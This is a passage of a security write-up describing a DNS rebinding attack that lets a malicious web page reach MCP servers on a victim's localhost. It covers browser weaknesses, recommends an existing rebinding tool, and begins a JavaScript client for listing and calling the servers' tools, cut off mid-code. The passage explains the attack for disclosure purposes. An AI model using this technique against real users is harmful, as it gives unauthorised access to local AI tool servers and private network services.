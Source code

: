 > **Note**: This isn't a problem for public websites, because the target IP is served under the attacker's domain, and won't contain any stored sensitive information like cookies or other storage from the victim. The trick is only useful for accessing private IPs reachable by the victim's computer and not the attacker's.

This attack still works on most common setups except for Chrome on Windows, which is either too paranoid to play or maybe it forgot that sharing is caring. This is because Firefox has not implemented a fix yet, and Chrome's fix does not cover the alternative `0.0.0.0` address to reach localhost on Linux.

The best tool for exploiting this attack is [Singularity of Origin](https://github.com/nccgroup/singularity?tab=readme-ov-file#singularity-of-origin "") by NCC Group. It has a demo running on [http://rebind.it](http://rebind.it/ "") with a few common ports such as `:8080`, but for custom ports, you'll need to run a server of your own. [Setup instructions are provided](https://github.com/nccgroup/singularity/wiki/Setup-and-Installation#setup "").

Enough talk, let's see this in action! We need to implement a simple MCP SSE client for when we have successfully DNS rebinded, to list tools and call them. Luckily the browser has the [`EventSource`](https://developer.mozilla.org/en-US/docs/Web/API/EventSource "") API for Server-Sent Events, and we can use [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/fetch "") to send the required JSON-RPC messages as POST requests. Before listing/calling tools, we'll need to perform a quick [handshake](https://modelcontextprotocol.io/specification/2024-11-05/basic/lifecycle#initialization "").

Click to expand JavaScript MCP client implementation

```hljs js
class MCP {
  constructor(host) {
    this.host = host;
    this.sseUrl = null;
    this.sseQueue = [];
  }

  async connect() {
    return new Promise((resolve) => {
      this.sse = new EventSource(this.host + "/sse");
      this.sse.addEventListener("endpoint", async (e) => {
        this.sseUrl = e.data;
        console.log("SSE Endpoint:", this.sseUrl);

        this.sse.addEventListener("message", (e) => {
          try {
            const data = JSON.parse(e.data);
            this.sseQueue.push(data);
          } catch (err) {
            console.error("Failed to parse SSE data:", err);
          }
        });

        await this.initialize();
        resolve();
      });
    });
  }

  async nextSse() {
    return new Promise((resolve) => {
      const checkQueue = () => {
        if (this.sseQueue.length > 0) {
          resolve(this.sseQueue.shift());
        } else {
          setTimeout(checkQueue, 50);
        }
      };
      checkQueue();
```